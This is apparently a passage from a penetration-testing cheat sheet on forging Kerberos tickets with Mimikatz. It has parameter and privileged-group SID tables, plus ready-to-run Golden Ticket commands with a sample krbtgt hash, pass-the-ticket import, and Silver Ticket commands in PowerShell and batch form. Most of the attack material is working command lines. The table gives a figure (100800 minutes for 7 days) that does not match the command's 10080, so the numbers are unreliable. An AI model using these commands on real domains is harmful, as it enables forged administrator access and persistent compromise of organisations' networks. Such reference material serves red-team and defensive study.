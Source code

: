 | /endin	| Yes	| Optional ticket lifetime (default is 10 years) in minutes. The default AD setting is 10 hours = 600 minutes |
| /renewmax	| Yes	| Ticket lifetime with renewal (default is 10 years) in minutes. The default AD setting is 7 days = 100800 |
| **/ptt**	| 	| Injects the ticket into the current PowerShell process (no need to save the ticket on disk) |
|/ticket	|	| Saves the ticket to a file for later use |

---

**Golden Ticket Default Groups**

| Group	| SID |
| ---- | ---- |
| Domain Users		| S-1-5-21-[DOMAIN_ID]-513	|
| Domain Admins		| S-1-5-21-[DOMAIN_ID]-512	|
| Schema Admins		| S-1-5-21-[DOMAIN_ID]-518	|
| Enterprise Admins*	| S-1-5-21-[DOMAIN_ID]-519	|
| Group Policy Creator Owners | S-1-5-21-[DOMAIN_ID]-520|

*This is only effective when the forged ticket is created in the Forest root domain, though add using /sids parameter for AD forest admin rights.

```powershell
# Invoke-Mimikatz.ps1
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:cyberlab.cybercorp.local /sid:S-1-5-21-3213520406-898593589-2043675049 /krbtgt:2e7a862b21d4afaeb8e0eb57a350b523 /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```
```batch
:: mimikatz.exe
mimikatz # kerberos::golden /user:Administrator /domain:cyberlab.cybercorp.local /sid:S-1-5-21-3213520406-898593589-2043675049 /krbtgt:2e7a862b21d4afaeb8e0eb57a350b523 /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt
```

Import a previously created ticket:

```powershell
# Invoke-Mimikatz.ps1
Invoke-Mimikatz -Command '"kerberos::ptt ticket.kirbi"'
```

```batch
:: mimikatz.exe
mimikatz # kerberos::ptt ticket.kirbi
```

## Silver Ticket

Generate a TGS encripted with a MACHINE$ account hash valid for its services:

```powershell
# Invoke-Mimikatz.ps1
Invoke-Mimikatz -Command '"kerberos::golden /user:[USER] /domain:[DOMAIN_FQDN] /sid:[DOMAIN_SID] /rc4:[TARGET_MACHINE_NTLM_HASH] /target:[TARGET_MACHINE_FQDN] /service:[TARGET_MACHINE_SERVICE] /ptt"'
```
```batch
:: mimikatz.exe
mimikatz # kerberos::golden /user:[USER] /domain:[DOMAIN_FQDN] /sid:[DOMAIN_SID] /rc4:[TARGET_MACHINE_NTLM_HASH] /target:[TARGET_MACHINE_FQDN] /service:[TARGET_MACHINE_SERVICE] /ptt
```
